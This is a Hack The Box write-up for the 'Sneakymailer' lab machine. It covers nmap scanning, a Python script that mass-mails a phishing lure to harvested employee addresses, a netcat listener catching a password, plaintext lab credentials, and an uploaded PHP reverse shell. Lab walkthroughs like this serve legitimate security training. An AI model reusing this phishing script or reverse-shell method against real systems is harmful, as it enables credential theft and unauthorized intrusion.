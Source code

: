 # Hack The Box - Sneakymailer

## This is my writeup and walkthrough for sneakymailer from Hack The Box.

![unknown](https://user-images.githubusercontent.com/36403473/91232091-b803f380-e72e-11ea-9097-71010dfe8f28.png)

## a medium linux machine.
## `Enumeration`
   
#### 1-Nmap 
```
nmap -sC -sV -O 10.10.10.197
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 12:38 EET
Nmap scan report for sneakycorp.htb (10.10.10.197)
Host is up (0.34s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: STARTTLS ACL OK UIDPLUS ACL2=UNION IDLE IMAP4rev1 CHILDREN QUOTA THREAD=ORDEREDSUBJECT THREAD=REFERENCES completed ENABLE CAPABILITY UTF8=ACCEPTA0001 NAMESPACE SORT
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
|_imap-capabilities: ACL OK UIDPLUS ACL2=UNION IDLE IMAP4rev1 CHILDREN QUOTA THREAD=ORDEREDSUBJECT AUTH=PLAIN completed CAPABILITY ENABLE NAMESPACE UTF8=ACCEPTA0001 THREAD=REFERENCES SORT
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/18%OT=21%CT=1%CU=44566%PV=Y%DS=2%DC=I%G=Y%TM=5F3BB00
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.24 seconds
```
when i visited `http://10.10.10.179` it redirected me to `http://sneakycorp.htb` i added sneakymailer.htb to my `etc/hosts`
then i discovered the platform.
i found that this platform contains all Company employees mails in `team.php` page  so i distarct all this mails from `Html` page online [extract](http://www.emailx.discoveryvip.com/)
and looking to the `nmap` result we found that port 25 is open so that `smtp`  so the idea that i have to send phising mail to all of this mails for this i craeate python script to send phising mail 
```
import smtplib 
 

addresslist = ['airisatou@sneakymailer.htb','angelicaramos@sneakymailer.htb','ashtoncox@sneakymailer.htb','bradleygreer@sneakymailer.htb','brendenwagner@sneakymailer.htb',
'briellewilliamson@sneakymailer.htb','brunonash@sneakymailer.htb','caesarvance@sneakymailer.htb','carastevens@sneakymailer.htb', 
'cedrickelly@sneakymailer.htb','chardemarshall@sneakymailer.htb','colleenhurst@sneakymailer.htb','dairios@sneakymailer.htb','donnasnider@sneakymailer.htb',
'doriswilder@sneakymailer.htb','finncamacho@sneakymailer.htb','fionagreen@sneakymailer.htb','garrettwinters@sneakymailer.htb','gavincortez@sneakymailer.htb', 
'gavinjoyce@sneakymailer.htb', 'glorialittle@sneakymailer.htb', 'haleykennedy@sneakymailer.htb','hermionebutler@sneakymailer.htb','herrodchandler@sneakymailer.htb', 
'hopefuentes@sneakymailer.htb', 'howardhatfield@sneakymailer.htb', 'jacksonbradshaw@sneakymailer.htb','jenagaines@sneakymailer.htb','jenettecaldwell@sneakymailer.htb',
'jenniferacosta@sneakymailer.htb', 'jenniferchang@sneakymailer.htb', 'jonasalexander@sneakymailer.htb','laelgreer@sneakymailer.htb','martenamccray@sneakymailer.htb',
'michaelsilva@sneakymailer.htb', 'michellehouse@sneakymailer.htb', 'olivialiang@sneakymailer.htb','paulbyrd@sneakymailer.htb','prescottbartlett@sneakymailer.htb', 
'quinnflynn@sneakymailer.htb', 'rhonadavidson@sneakymailer.htb', 'sakurayamamoto@sneakymailer.htb', 'sergebaldwin@sneakymailer.htb','shaddecker@sneakymailer.htb', 
'shouitou@sneakymailer.htb', 'sonyafrost@sneakymailer.htb', 'sukiburks@sneakymailer.htb','sulcud@sneakymailer.htb', 'tatyanafitzpatrick@sneakymailer.htb', 
'thorwalton@sneakymailer.htb', 'tigernixon@sneakymailer.htb', 'timothymooney@sneakymailer.htb', 'unitybutler@sneakymailer.htb', 'vivianharrell@sneakymailer.htb',
'yuriberry@sneakymailer.htb','zenaidafrank@sneakymailer.htb'] 
 
fromaddr = 'it@sneakymailer.htb' 
 
for address in addresslist: 
    toaddrs  = address 
    TEXT = 'we have a security issue please visit http://10.10.16.120' 
    SUBJECT = 'Security issue' 
    msg = 'Subject: %s\n\n%s' % (SUBJECT, TEXT) 
 
    server = smtplib.SMTP('10.10.10.197',25) 
    server.starttls() 
    server.sendmail(fromaddr, toaddrs, msg) 
    server.quit() 

```
open port 80 to listen 
`nc -lnvp 80`  
waiting and finally  recive data from mails contains his mail, username and password
![recievedmailcredential](https://user-images.githubusercontent.com/36403473/91237371-bc360e00-e73a-11ea-8948-11d3e6743303.png)
```
email=paulbyrd%40sneakymailer.htb&
password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
``` 
i decode this string online 

```
username: PaulByrd

password: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht

email: paulbyrd@sneakymailer.htb

```
i tried to login to ftp server by this credential but i failed to login ,i stopped i don't know what to do
so one of my friend give me hent
hent is to know what is  up microsoft lookup.

So I searched to find a similar package for Linux in this link you will know all package [linux mailer ](https://itsfoss.com/best-email-clients-linux/).
i installed  `evolution`.
i login successfully  

![evolution](https://user-images.githubusercontent.com/36403473/91236339-f5b94a00-e737-11ea-922d-3cfc5e96c6fe.png)

i found mail from PaulByrd asked admin to change his name and password 
`Hello administrator, I want to change this password for the developer account`
so now i have credintial to login ftp server 
![ftp-connectd](https://user-images.githubusercontent.com/36403473/91236909-7b89c500-e739-11ea-8176-2c7bb1970b56.png)
so i downloaded all ftp server files on my pc to explore it comfortably by this command 
`wget -r -l 10 --ftp-user='developer' --ftp-password='m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C' ftp://10.10.10.197/`
![download-server-file](https://user-images.githubusercontent.com/36403473/91238766-17b5cb00-e73e-11ea-9e42-462e426b7f11.png)

I found the path to the dev file i tried to to uload revese shell t ftp server by curl command bu it doent work so i used `filezilla` to upload revese shell freerly 

![filezella](https://user-images.githubusercontent.com/36403473/91237690-93624880-e73b-11ea-8283-929a0ff9f91d.png)

i uploaded python rev shell but it doent work so i grep php revese shell from  
(pentestmonkey)[https://github.com/pentestmonkey/php-reverse-shell]  and uploaded it to server and get access to server.

![connected-shell](https://user-images.githubusercontent.com/36403473/91237952-35823080-e73c-11ea-9654-b8b8da9de16f.png)

The first steps I always take are converting shell to full tty shell
```
    /usr/bin/script -qc /bin/bash /dev/null
    Ctrl-Z
    stty raw -echo
    fg
``` 
### 2-user access
